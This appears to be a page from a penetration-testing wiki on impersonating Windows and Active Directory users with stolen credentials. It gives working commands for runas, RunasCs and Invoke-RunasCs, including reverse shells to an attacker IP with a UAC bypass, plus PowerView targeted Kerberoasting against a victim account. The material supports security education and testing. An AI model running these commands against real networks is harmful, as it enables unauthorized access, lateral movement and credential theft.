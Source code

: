 # Impersonation

On windows or Active Directory environments, when credentials are found (through [dumping](dumping/) or [cracking](../../ad/movement/credentials/cracking.md) for instance), attackers try to use them to obtain access to new resources. Depending on the harvested credential material type, the impersonation can be done in different ways.

* **LM or NT password hash**: [pass-the-hash](broken-reference)
* **RC4 Kerberos key (i.e. NT hash)**: [overpass-the-hash](../../ad/movement/kerberos/ptk.md)
* **non-RC4 Kerberos key (i.e. DES or AES)**: [pass-the-key](../../ad/movement/kerberos/ptk.md) (alias for overpass-the-hash)
* **Kerberos ticket**: [pass-the-ticket](broken-reference)
* **plaintext password**: the techniques listed below

{% tabs %}
{% tab title="RunAs" %}
RunAs is a standard Windows command that allows to execute a program under a different user account. When stuffing an Active Directory account's password, the `/netonly` flag must be set to indicate the credentials are to be used for remote access only.

```bash
runas /netonly /user:$DOMAIN\$USER "powershell.exe"
```

Since the password cannot be supplied as an argument, the session must be interactive.
{% endtab %}

{% tab title="RunAsCs" %}
[RunAsCs](https://github.com/antonioCoco/RunasCs) is a C# version of RunAs. It may be very handy on environements without the native RunAs.exe.

```powershell
#RunAs locally 
RunasCs.exe $USERNAME $PASSWORD $Command -d $DOMAIN

#RunAs and spawn a revers shell and bypass UAC
RunasCs.exe $USERNAME $PASSWORD cmd.exe -d $DOMAIN -r $ATTACKING_IP:$PORT --bypass-uac
```

Or, we may use the powershell version

```powershell
#RunAs and spawn a revers shell
. .\Invoke-RunasCs.ps1
Invoke-RunasCs -Username $USERNAME -Password $PASSWORD -Domain $DOMAIN -Command $CMD -Remote $ATTACKING_IP:$PORT
```
{% endtab %}

{% tab title="Powershell" %}
In Powershell, it is possible to impersonate a user by create a credential object and supplying it with the `-Credential` argument in the next command.

```bash
# Credential object creation (prompted)
$credential = Get-Credential

# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Start-Process Notepad.exe -Credential $credential
```
{% endtab %}

{% tab title="PowerView" %}
Most of [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)'s functions have the `-Credential`, `-Domain` and `-Server` parameters that can be used to explicitly specify the user to run as, the target Domain and and the target Domain Controller. Just like the previous "Powershell" tab, the -Credential option has to be supplied with a credential object.

Here is an example for [targeted Kerberoasting](../../ad/movement/dacl/targeted-kerberoasting.md).

```bash
# Credential object creation (not prompted)
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential('FQDN.DOMAIN\user_to_run_as', $password)

# Usage
Set-DomainObject -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' -Identity 'victimuser' -Set @{serviceprincipalname='nonexistant/BLAHBLAH'}
$User = Get-DomainUser -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' 'victimuser'
$User | Get-DomainSPNTicket -Credential $Cred -Domain 'FQDN.DOMAIN' -Server 'Domain_Controller' | fl
```
{% endtab %}
{% endtabs %}

[SharpLdapWhoami](https://github.com/bugch3ck/SharpLdapWhoami) can then be used to make sure the user is correctly impersonated. A standard whoami command will only return the local user rights, not the users impersonated during remote operations (like LDAP queries to the DC).

```powershell
.\SharpLdapWhoami.exe
.\SharpLdapWhoami.exe /method:kerberos /all
```

